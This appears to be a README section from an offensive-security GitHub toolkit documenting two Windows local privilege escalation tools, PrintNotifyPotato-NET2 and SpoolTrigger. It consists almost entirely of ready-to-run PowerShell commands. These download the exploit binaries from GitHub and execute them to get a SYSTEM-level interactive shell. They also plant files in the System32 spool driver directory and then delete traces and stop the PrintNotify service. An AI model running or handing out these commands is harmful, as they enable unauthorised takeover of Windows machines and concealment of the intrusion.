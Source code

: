 ## PrintNotifyPotato-NET2.exe

|Function name|Description|Privileges|Screenshot|
|---|---|---|---|
|PrintNotifyPotato-NET2|Local privilege escalation|Administrator|[PrintNotifyPotato](https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/LPE/LPE.png)|

<br />

**downloadcmdLet:**
```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/LPE/PrintNotifyPotato-NET2.exe" -OutFile "PrintNotifyPotato-NET2.exe"
```

<br />

**execute:**
```powershell
.\PrintNotifyPotato-NET2.exe whoami
.\PrintNotifyPotato-NET2.exe cmd interactive
```

<br />

## SpoolTrigger.ps1

|Function name|Description|Privileges|Screenshot|Credits|
|---|---|---|---|---|
|SpoolTrigger|Local privilege escalation|Administrator|[SpoolTrigger](https://user-images.githubusercontent.com/23490060/222120179-ae2e2b14-fe3e-453e-a494-dcf1c84dd270.jpg)|@404death|

<br />

**downloadcmdLet:**
```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/LPE/bin.zip" -OutFile "$Env:TMP\bin.zip"
```

<br />

**execute:**
```powershell
# Expand ZIP archive
Expand-Archive -Path "$Env:TMP\bin.Zip" -DestinationPath "$Env:TMP" -force
cd "$Env:TMP\bin"

# Move files to comrrespondent directory
Move-Item -Path "*" -Destination "$Env:WINDIR\System32\spool\drivers\x64\3\" -Force
cd "$Env:WINDIR\System32\spool\drivers\x64\3"
.\SpoolTrigger.ps1

# CleanUp
Stop-Service -Name "PrintNotify" -Force
Remove-Item -Path "$Env:TMP\bin" -Force
Remove-Item -Path "$Env:TMP\bin.zip" -Force
Remove-Item -Path "$Env:WINDIR\System32\spool\drivers\x64\3\bin" -Force
```

